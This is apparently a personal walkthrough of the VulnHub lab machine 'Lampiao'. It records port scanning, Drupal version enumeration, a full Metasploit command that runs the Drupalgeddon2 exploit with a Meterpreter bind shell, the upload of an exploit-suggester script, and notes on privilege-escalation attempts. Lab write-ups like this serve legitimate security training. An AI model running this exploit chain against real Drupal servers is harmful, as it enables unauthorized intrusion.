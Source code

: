 #Reconnaissance 
Nmap scan. 
Found port 1898 open, which was found to be running drupal
Looked for Drupal enumeration apps and was able to find "Drupwn" on github. Installed and executed, discovering the running version was likely to be 8.x

Searchsploit contained several entries for "DrupalGeddon"

msfconsole
search drupal
```
msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2;\
set payload php/meterpreter/bind_tcp;\
set rport 1898;\
set rhost $tgt;\
exploit;\
cd ~/toolz;\
upload ~/toolz/les.sh /tmp/"
```
notes 
uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
![[Pasted image 20220609223956.png]]

Several of the Ubuntu related exploits are inapplicable as they apply to version 16.04
Chocoboroot fails due to the arch not being applicable (i686)

After executing a large number of manual enumeration steps, checked other guides. The majority of users achieved root by using the Linux Exploit Suggester script, which feels sort of cheap compared to the typically OffSec box (granted, this is vanilla vuln-hub).